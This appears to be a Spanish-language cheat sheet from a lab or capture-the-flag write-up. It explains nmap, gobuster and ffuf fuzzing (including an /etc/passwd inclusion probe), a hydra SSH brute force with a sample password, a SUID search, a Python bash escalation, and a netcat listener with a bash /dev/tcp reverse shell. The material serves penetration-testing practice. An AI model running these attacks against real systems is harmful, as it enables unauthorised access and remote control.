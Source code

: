 ## 🛠️ Herramientas, comandos y servicios usados

### 🔍 Nmap
Escanea puertos y detecta servicios.
```
nmap -p- --open -A -sS -Pn -n <IP>

    -p-: escanea todos los puertos.
    
    --open: muestra solo los puertos abiertos.
    
    -A: detección de sistema y versión.
    
    -sS: escaneo SYN, más sigiloso.
    
    -Pn: no hace ping previo.
    
    -n: no resuelve nombres DNS. 
```

### 🪓 Gobuster
Hace fuzzing para encontrar directorios o archivos ocultos.
```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,py,html,txt,js

    -w: diccionario.

    -x: extensiones que queremos probar.
```

### 🏹 Ffuf
Fuzzing para probar parámetros o rutas.
```
ffuf -c -t 200 -fc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://<IP>/index.php?FUZZ=/etc/passwd"

    -fc 404: ignora errores 404.
    
    -t 200: usa 200 hilos (va más rápido).
    
    -u: URL con FUZZ donde se probarán los valores.
```

### 🔐 Hydra
Fuerza bruta contra servicios de autenticación.
```
hydra -L usuarios.txt -p purpl3 -I ssh://172.17.0.2 -V -F -u

    -L usuarios.txt: lista de nombres de usuario. Si solo fuera un usuario lo indicamos y ponemos -l.
    
    -p purpl3: usa la contraseña "purpl3" para todos los usuarios. Si fuera ir probando + de una contraseña seria -P y usar por ejemplo el diccionario rockyou.
    
    -I: retoma sesión interrumpida si existe.
    
    ssh://172.17.0.2: objetivo y protocolo (SSH).
    
    -V: muestra cada intento de login (modo verboso).
    
    -F: para al encontrar una combinación válida.
    
    -u: prueba usuario a usuario, no combinaciones completas.

```

###  🔎 Find permisos SUID
Busca archivos ejecutables con bit SUID activado (ejecutables con privilegios del dueño).
```
find / -perm -4000 -user root 2>/dev/null

    /: busca desde la raíz del sistema.
    
    -perm -4000: busca archivos con bit SUID activado.
    
    -user root: limitados a archivos propiedad del usuario root(o el que especifiques).
    
    2>/dev/null: oculta errores (por ejemplo, por falta de permisos).

```

### 🐍 Python Shell Escalation
Ejecuta una shell Bash desde un script Python, útil para escalar privilegios si se ejecuta como root.
```
import os;
os.system("/bin/bash")
```

### 📡 Reverse Shell + Canal de Escucha
Permite tomar control remoto de una máquina: se abre un listener (atacante) y se conecta desde la víctima.

Abre un puerto (3344) a la espera de conexiones.
```
nc -lvnp 3344

-l: escucha.

-v: salida detallada.

-n: no resuelve DNS.

-p 3344: puerto a escuchar.
```

Ejecuta una shell interactiva que redirige entrada/salida hacia la IP del atacante (172.17.0.1) y puerto (3344).
```
bash -c "bash -i >& /dev/tcp/172.17.0.1/3344 0>&1"
```
> 🧠 Nota: Si se lanza desde navegador o HTTP (por ejemplo en una URL), reemplaza & por %26 para evitar que se corte el comando.
